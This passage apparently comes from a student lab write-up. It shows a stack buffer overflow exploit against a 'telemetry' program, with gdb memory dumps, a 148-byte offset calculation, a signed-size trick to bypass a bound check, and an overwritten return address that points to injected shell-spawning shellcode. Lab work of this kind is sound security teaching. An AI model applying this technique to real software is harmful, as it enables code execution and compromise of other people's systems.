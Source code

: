 ```
0xffffd5f8:     0xffffd618      0x080492bd      0xffffd7ab      0x00000000
0xffffd608:     0x00000000      0x00000000      0x00000000      0xffffd630
0xffffd618:     0xffffd6b0      0x08049494      0x00000002      0x0804928d
0xffffd628:     0x0804cfe8      0x08049494      0x00000002      0xffffd6a4
0xffffd638:     0xffffd6b0      0x0804b008      0x00000000      0x00000000
0xffffd648:     0x08049472      0x0804cfe8      0x00000000      0x00000000
0xffffd658:     0x00000000      0x08049097      0x0804928d      0x00000002


(gdb) i f
Stack level 0, frame at 0xffffd600:
 eip = 0x80491ee in display (telemetry.c:8); saved eip = 0x80492bd
 called by frame at 0xffffd630
 source language c.
 Arglist at 0xffffd5f8, args: path=0xffffd7ab "navigation"
 Locals at 0xffffd5f8, Previous frame's sp is 0xffffd600
 Saved registers:
  ebp at 0xffffd5f8, eip at 0xffffd5fc
```
By doing so, we learned that the location of the rip of this function was 148 bytes above the start of ```msg``` (0xffffd5fc - 0xffffd568 = 94 in hex = 148 in decimal).

## Exploit Structure
#### (A description of your exploit structure)
The exploit has four parts:
1. Insert a one byte negative number (0xff) which is read into ```size``` to get around the bound check
2. Write 148 bytes of dummy characters to overwrite everything in between rip of ```display``` and start of ```msg```: ```msg```, compiler padding, and the sfp.
3. Overwrite the rip with the address of the shellcode. Since we are putting shellcode directly after the rip, we overwrite the rip with 0xffffd600 (0xffffd5fc + 4).
4. Finally, insert the shellcode directly above the rip.
This causes the ```telemetry``` program to execute the shellcode when it returns from ```display``` function. 


## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)
When we ran GDB after inputting the malicious string, we got the following output:
```
(gdb) x/64x msg
0xffffd568:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd578:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd588:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd598:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5a8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5b8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5d8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5e8:     0x000000c0      0x41414141      0x41414141      0x41414141
0xffffd5f8:     0x41414141      0xffffd600      0xcd58326a      0x89c38980
0xffffd608:     0x58476ac1      0xc03180cd      0x2f2f6850      0x2f686873
0xffffd618:     0x546e6962      0x8953505b      0xb0d231e1      0x0a80cd0b
0xffffd628:     0x0804cfe8      0x08049494      0x00000002      0xffffd6a4
0xffffd638:     0xffffd6b0      0x0804b008      0x00000000      0x00000000
0xffffd648:     0x08049472      0x0804cfe8      0x00000000      0x00000000
0xffffd658:     0x00000000      0x08049097      0x0804928d      0x00000002
```
After 148 bytes of garbage, the rip is overwritten with 0xffffd600 which points to the shellcode directly above the rip. 
